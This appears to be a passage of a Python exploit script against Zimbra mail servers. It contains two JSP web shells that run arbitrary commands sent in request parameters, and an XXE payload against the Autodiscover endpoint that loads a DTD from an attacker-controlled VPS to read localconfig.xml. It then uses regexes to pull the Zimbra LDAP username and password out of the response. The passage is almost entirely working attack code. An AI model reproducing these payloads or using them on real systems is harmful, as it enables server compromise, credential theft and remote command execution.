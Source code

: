     filename = "sunian.jsp"
    fileContent = r'<%if("023".equals(request.getParameter("pwd"))){java.io.InputStream in=Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>'
    #fileContent = r'<%@page import="java.io.*"%><%@page import="sun.misc.BASE64Decoder"%><%try {String cmd = request.getParameter("tom");String path=application.getRealPath(request.getRequestURI());String dir="weblogic";if(cmd.equals("NzU1Ng")){out.print("[S]"+dir+"[E]");}byte[] binary = BASE64Decoder.class.newInstance().decodeBuffer(cmd);String xxcmd = new String(binary);Process child = Runtime.getRuntime().exec(xxcmd);InputStream in = child.getInputStream();out.print("->|");int c;while ((c = in.read()) != -1) {out.print((char)c);}in.close();out.print("|<-");try {child.waitFor();} catch (InterruptedException e) {e.printStackTrace();}} catch (IOException e) {System.err.println(e);}%>'
    #可使用第11行bypass
    print(base_url)
    #请自己在公网放置dtd文件
    dtd_url="http://VPS-IP/exp.dtd"
    """
    <!ENTITY % file SYSTEM "file:../conf/localconfig.xml">
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % end "]]>">
    <!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
    """
    xxe_data = r"""<!DOCTYPE Autodiscover [
            <!ENTITY % dtd SYSTEM "{dtd}">
            %dtd;
            %all;
            ]>
    <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
        <Request>
            <EMailAddress>aaaaa</EMailAddress>
            <AcceptableResponseSchema>&fileContents;</AcceptableResponseSchema>
        </Request>
    </Autodiscover>""".format(dtd=dtd_url)

    #XXE stage
    headers = {
        "Content-Type":"application/xml"
    }
    print("[*] Get User Name/Password By XXE ")
    r = requests.post(base_url+"/Autodiscover/Autodiscover.xml",data=xxe_data,headers=headers,verify=False,timeout=15)
    #print r.text
    if 'response schema not available' not in r.text:
        print("don't have xxe")
        exit()

    #low_token Stage
    import re
    pattern_name = re.compile(r"&lt;key name=(\"|&quot;)zimbra_user(\"|&quot;)&gt;\n.*?&lt;value&gt;(.*?)&lt;\/value&gt;")
    pattern_password = re.compile(r"&lt;key name=(\"|&quot;)zimbra_ldap_password(\"|&quot;)&gt;\n.*?&lt;value&gt;(.*?)&lt;\/value&gt;")
    username = pattern_name.findall(r.text)[0][2]
    password = pattern_password.findall(r.text)[0][2]
    #print(username)
    #print(password)
